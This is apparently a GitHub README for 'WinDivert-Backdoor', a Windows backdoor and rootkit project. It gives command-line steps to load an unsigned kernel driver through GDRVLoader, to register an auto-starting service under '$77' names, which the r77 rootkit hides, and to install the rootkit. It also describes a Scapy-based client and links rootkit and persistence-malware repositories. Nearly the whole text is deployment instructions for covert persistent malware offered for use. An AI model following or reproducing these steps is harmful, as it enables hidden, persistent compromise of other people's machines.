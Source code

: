 # WinDivert-Backdoor
## Server
1. Install driver with GDRVLoader.exe </br>
`GDRVLoader.exe C:\$77folder\$77kernel.sys` 
3. Install service </br>
`sc create $77service binPath= "C:\$77folder\$77service.exe" start= auto`
5. Start service </br>
`sc start $77service`
6. Install rootkit </br>
`Install.exe`
## Client
1. [Install Scapy](https://scapy.readthedocs.io/en/latest/installation.html)
2. Download client.py script
3. Flourish

## References
[](https://github.com/zer0condition/GDRVLoader)
[](https://github.com/basil00/Divert)
[](https://github.com/cocomelonc/2022-05-09-malware-pers-4/tree/master)
[](https://github.com/r-a303931/pcap-backdoor)
[](https://github.com/bytecode77/r77-rootkit)
